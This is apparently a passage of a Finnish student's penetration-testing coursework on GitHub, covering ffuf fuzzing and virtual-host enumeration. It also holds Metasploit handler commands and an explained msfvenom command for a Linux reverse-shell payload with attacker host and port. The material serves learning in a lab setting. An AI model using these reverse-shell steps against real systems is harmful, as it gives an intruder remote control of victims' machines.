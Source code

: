 ##### Param Mining

![image](https://github.com/vilikaihola/Tunkeutumistestaus/assets/148875596/feb7115c-97b6-4c08-a2cb-d359c84132b8)
>Työkalu käyttää "parameters.txt" -tiedostoa kokeillakseen eri arvoja "FUZZ" -parametrille ja raportoi löydetyt tulokset. Ffuf on suorittanut kaikki testit sanalistasta, eikä virheitä raportoitu.

##### Rate Limited

![image](https://github.com/vilikaihola/Tunkeutumistestaus/assets/148875596/f1b98808-86a4-4907-a66c-f501818174c3)
>Luulen että pyyntöjeni määrä ylittää palvelun rajoitukset. En ole varma olisiko tulosteen tullut olla erilainen. Yritin säätää viivettä mutta sillä ei ollut vaikutusta asiaan.

##### Subdomains - Virtual Host Enumeration

![image](https://github.com/vilikaihola/Tunkeutumistestaus/assets/148875596/805d710e-fdea-4931-8ec9-3547ccc4b116)
> Tässä ffuf-työkalun käyttöä aliverkkotunnusten (subdomain) etsimiseen paikalliselta palvelimelta. Työkalu hyödyntää subdomains.txt sanalistaa ja lähettää HTTP-pyyntöjä, joissa jokainen listaan kuuluva aliverkkotunnus liitetään Host-headeriin yhdessä pääverkkotunnuksen ffuf.me kanssa. Komennon suodattimen -fs 1495 avulla ohitetaan kaikki vastaukset, joiden sisältö on tarkalleen 1495 tavua, mikä auttaa erottamaan vakiotulokset mahdollisesti piilotetusta sisällöstä. Tässä tapauksessa työkalu on tunnistanut 'redhat' aliverkkotunnuksen, joka ei vastannut suodattimen ehtoja, viitaten löydettyyn resurssiin.


                              msfconsol # konsoli
                              use exploit/multi/handler # määritetään asetukset
                              set PAYLOAD linux/x64/shell_reverse_tcp # määrittää payloadin 
                              set LHOST 192.168.1.10 # määrittää hostin
                              set LPORT 4444 # määrittää portin

### e) msfVenom

En päässyt tunnille joten en lähtenyt suorittamaan haittaohjelmia msfVenomilla jottei satu vahinkoa. Ohessa kuitenkin kuva jolla voisi luoda haittaohjelman.

![image](https://github.com/vilikaihola/Tunkeutumistestaus/assets/148875596/1363d1eb-6885-46e0-8910-911b1c7c65b8)
>msfvenom: Tämä on Metasploit-projektin tarjoama työkalu, jota käytetään haittaohjelmien ja muiden hyödyllisten kuormien (payloads) luontiin.
-p linux/x64/shell_reverse_tcp: Tässä annetaan msfvenom-työkalulle parametri -p, joka kertoo sen luomaan payloadin. linux/x64/shell_reverse_tcp on valittu payload, joka luo käänteisen komentokuoren (reverse shell) Linux-alustalla, joka on 64-bittinen.
LHOST=198.168.56.103: Tämä määrittelee Local HOSTin, eli IP-osoitteen, johon reverse shell -yhteys yrittää yhdistää takaisin. LHOST on yleensä hyökkääjän koneen osoite tai kone, joka odottaa saapuvaa yhteyttä.
LPORT=4444: Tämä määrittelee Local PORTin, eli portin, johon reverse shell -yhteys yrittää yhdistää takaisin. Portin 4444 on tässä asetettu kuuntelemaan saapuvia yhteyksiä.
Kun tämä komento suoritetaan, msfvenom luo raakapayloadin, joka tulostuu näytölle tai ohjautuu tiedostoon, jos komennon lopussa on tiedostonimi. Tämä payload voidaan sitten tallentaa tiedostoon ja suorittaa kohdekoneella, jonka tarkoituksena on luoda yhteys takaisin määriteltyyn LHOST-osoitteeseen ja LPORT-porttiin. Komento itsessään ei tee muuta kuin luo payloadin; se ei suorita sitä eikä avaa mitään yhteyksiä, ennen kuin se suoritetaan kohdejärjestelmässä.
